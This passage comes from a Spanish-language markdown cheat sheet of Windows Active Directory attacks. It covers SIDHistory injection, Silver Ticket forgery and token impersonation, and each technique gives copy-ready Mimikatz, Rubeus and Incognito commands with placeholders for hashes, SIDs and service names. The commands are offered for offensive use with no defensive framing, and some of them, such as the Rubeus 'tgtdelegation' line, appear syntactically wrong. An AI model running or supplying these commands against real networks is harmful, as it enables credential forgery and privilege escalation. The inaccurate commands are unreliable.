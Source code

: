 **Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # sid::patch
    # Luego modificar el atributo SIDHistory del usuario
    ```

[Volver al índice](#índice-de-técnicas)

---

## 20. Silver Ticket Attack

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Crea TGS falso para un servicio usando el hash NT de la cuenta de servicio.             |
| **Condiciones** | Hash NT de cuenta de servicio y SPN.                                                    |

**Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # kerberos::golden /user:<USER> /domain:<DOMINIO> /sid:<SID> /service:<SPN> /target:<host> /rc4:<HASH> /ptt
    ```
  - **Rubeus:**  
    ```powershell
    Rubeus.exe tgtdelegation /user:<USER> /rc4:<HASH> /domain:<DOMINIO> /sid:<SID> /service:<SPN>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 21. Token Impersonation & Token Stealing

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Roba/duplica tokens de acceso de otros usuarios para ejecutar procesos bajo su identidad.|
| **Condiciones** | Privilegios elevados, acceso local.                                                     |

**Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # token::elevate
    mimikatz # token::list
    ```
  - **Incognito:**  
    ```powershell
    incognito.exe -a "AddUser <token>"
    ```

[Volver al índice](#índice-de-técnicas)

---

